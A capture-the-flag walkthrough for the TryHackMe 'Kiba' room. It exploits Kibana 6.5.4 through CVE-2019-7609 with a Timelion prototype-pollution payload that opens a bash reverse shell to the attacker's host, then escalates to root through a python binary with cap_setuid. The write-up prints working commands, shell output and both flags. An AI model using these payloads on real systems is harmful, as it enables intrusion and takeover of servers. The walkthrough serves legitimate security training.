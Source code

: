 # Kiba Walkthrough
### Link
- https://tryhackme.com/room/kibas
---
About the answer of this question, I did some research. I found this [link](https://www.whitesourcesoftware.com/resources/blog/prototype-pollution-vulnerabilities/).

It's really helpfull to understand this type of vulnerability.

**Question**
#### What is the vulnerability that is specific to programming languages with prototype-based inheritance?
**Answer** 
#### prototype pollution
---
### Recon
```
sudo nmap -sS -sC -sC -p- [IP]
```
**Namp scan result**
```
```
**Question**
#### What is the version of visualization dashboard installed in the server?
- Connect to http://[IP]:5601
- From the User Interface, Go to **Management** and you find the version.
**Answer** 
#### 6.5.4

**Question**
#### What is the CVE number for this vulnerability? This will be in the format: CVE-0000-0000
Ask the question to Google and you find this [link](https://github.com/mpgn/CVE-2019-7609)
**Answer** 
#### CVE-2019-7609
---
### Exploit
**Question**
#### Compromise the machine and locate user.txt
Based on the [link](https://www.whitesourcesoftware.com/resources/blog/prototype-pollution-vulnerabilities/) from the question 1, we just need to follow the process.

- First: From the Kibana user interface, click on **Timelion**
- Second: Copy/Paste the code from [here](https://github.com/mpgn/CVE-2019-7609)
```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/[Local IP]/[Local PORT] 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```
- Third: Update the information about Your IP and Port
- Fourth: Start listener
- Fifth: Execute the command
- Sixth: Move to **Canvas** *Be really patient and try this sequence many times because it soesn't work at the first attempt*
- Seventh: Get the Shell access and find the **user.txt** file
```
 find / -name user.txt 2>/dev/null
```
```
Connection from 10.10.19.73:59918
bash: cannot set terminal process group (935): Inappropriate ioctl for device
bash: no job control in this shell
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

kiba@ubuntu:/home/kiba/kibana/bin$
kiba@ubuntu:/home/kiba/kibana/bin$ cd ../..
kiba@ubuntu:/home/kiba$ ls -l
total 110616
-rw-rw-r--  1 kiba kiba 113259798 Dec 19  2018 elasticsearch-6.5.4.deb
drwxrwxr-x 11 kiba kiba      4096 Dec 17  2018 kibana
-rw-rw-r--  1 kiba kiba        35 Mar 31  2020 user.txt
kiba@ubuntu:/home/kiba$ cat user.txt
THM{1s_easy_pwn3d_k1bana_w1th_rce}
```
**Answer** 
#### THM{1s_easy_pwn3d_k1bana_w1th_rce}
---
### Privilege escalation
**Information**
```
Capabilities is a concept that provides a security system that allows "divide" root privileges into different values
```
**Question**
#### How would you recursively list all of these capabilities?
Quick search and find the man of [getcap](https://man7.org/linux/man-pages/man8/getcap.8.html) and this [link](https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities#binaries-capabilities)
```
kiba@ubuntu:/home/kiba$ getcap -r / 2>/dev/null
getcap -r / 2>/dev/null
/home/kiba/.hackmeplease/python3 = cap_setuid+ep
/usr/bin/mtr = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep
```
**Answer** 
#### getcap -r /
One information drew my attention: **/home/kiba/.hackmeplease/python3 = cap_setuid+ep**. Let's check the hidden directory **.hackmeplease**
```
kiba@ubuntu:/home/kiba$ cd .hackmeplease
cd .hackmeplease
kiba@ubuntu:/home/kiba/.hackmeplease$ ls -l
ls -l
total 4348
-rwxr-xr-x 1 root root 4452016 Mar 31  2020 python3
```
We can execute python command.Let's check [gtfobins](https://gtfobins.github.io/) and serach something related to **python**

I found that : [Link](https://gtfobins.github.io/gtfobins/python/#capabilities). Let's execute the command related to **capabilities**
```
/home/kiba/.hackmeplease/python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```
We are **root**
```
find / -name root.txt 2>/dev/null
```
```        
whoami
root
cd /root
ls
root.txt
ufw
cat root.txt
```
**Answer** 
#### THM{pr1v1lege_escalat1on_us1ng_capab1l1t1es}



